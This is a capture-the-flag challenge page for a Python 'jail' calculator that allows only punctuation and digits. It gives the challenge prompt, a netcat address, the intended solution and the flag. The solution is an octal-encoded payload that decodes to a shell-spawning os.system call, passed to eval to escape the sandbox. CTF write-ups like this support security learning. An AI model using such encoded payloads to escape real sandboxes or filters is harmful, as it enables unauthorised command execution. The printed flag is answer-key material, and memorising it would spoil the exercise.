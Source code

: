 # SymCalcpy
## JAIL - Medium
| author | first blood | solves | points |
| --- | --- | --- | --- |
| k3v1n | _ | 0 | 0 |
### prompt
Welcome to SymCalc, the most secure calculator ever. Only punctuation and digits allowed!

**Connect via:**
`nc symcalc.sdc.tf 1337`

### original specification
Allowed set of characters written in Python:
`set(string.punctuation + string.digits + '\n')`

It also asks for a favorite builtin, which will be pushed to a Python interpreter, the interpreter then asks for you to enter an expression.
The trick is to enter eval for that and then enter Python code encoded in octal digits:
`_('\137\137\151\155\160\157\162\164\137\137\050\042\157\163\042\051\056\163\171\163\164\145\155\050\042\163\150\042\051')`

There is actually another built-in (without using the obvious eval or exec) that can be used: `getattr`, with a more complex exploit based on the same octal encoding idea, but this will be left as an exercise to the writeup authors.

**flag:** `sdctf{0ct4l_3scap3s_go_brrrrr...___und3rsc0r3s_ar3_Id3Nt1Fi3rs_t00}`

### write-ups
1. https://mikecat.github.io/ctf-writeups/2022/20220507_San_Diego_CTF_2022/JAIL/SymCalc_py/
2. https://github.com/qhdwight/ctf-writeups/tree/master/sd-ctf-2021/rbash-symcalcpy